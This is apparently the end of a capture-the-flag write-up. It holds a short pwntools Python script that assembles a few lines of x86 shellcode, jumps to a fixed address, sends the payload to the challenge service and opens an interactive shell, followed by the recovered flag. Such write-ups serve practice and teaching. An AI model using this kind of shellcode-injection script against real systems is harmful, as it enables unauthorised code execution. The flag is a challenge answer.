 ```python
code = """
xor eax, eax
mov ax,0x158d
jmp eax
"""

print(sh.recvuntil(b"> ").decode())
sh.sendline(asm(code))


sh.interactive()
```
Flag: `DGA{L3s_1nt3rupt1ons_c_3st_c00l}`